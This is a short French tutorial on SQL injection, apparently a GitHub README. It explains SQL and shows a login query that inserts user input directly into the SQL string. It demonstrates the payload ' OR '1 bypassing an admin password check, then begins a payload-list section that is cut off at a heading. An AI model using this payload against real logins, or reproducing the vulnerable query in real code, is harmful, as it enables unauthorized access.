 ## Introduction

### Qu'est ce que le SQL ?

Le SQL (*Structured Query Language*) est un langage informatique de **gestion de bases de données**. Il permet de manipuler et d'interroger des données stockées dans des tables et d'exécuter des opérations telles que la création, la mise à jour, la suppression et la recherche de données.

### Comment est formé le backend ?
Au plus classique (*Et le plus vulnérable entre autre*:): 

```sql
-- return
SELECT 
  (`password` = '$pass') is_valid_password
FROM users 
WHERE username = 'admin' 
LIMIT 1;
```
 
 On peut se demander: mais comment c'est vulnérable ?
 En fait, la variable `$pass`, est remplacé par un input de user.
 Voici ce qu'il se passe quand on met la variable `$pass` avec la *valeur* `Arty06`.

```sql
-- return
SELECT 
  (`password` = 'Arty06') is_valid_password
FROM users 
WHERE username = 'admin' 
LIMIT 1;
```

### Vulnérabilité
La vulnérabilité est tel que nous pouvons facilement sortir de *'l'input'*: 
En y injectant: `' OR '1`, nous avons:
```sql
-- return
SELECT 
  (`password` = '' OR '1') is_valid_password
FROM users 
WHERE username = 'admin' 
LIMIT 1;
```

Nous bypassons donc le *password*,et le tour est joué !

## Bypass/Payloads

Voici des listes qui vont vous permettre de bypasser certainesrestrictions,ainsi que des payloads d'injection:

### Commentaires
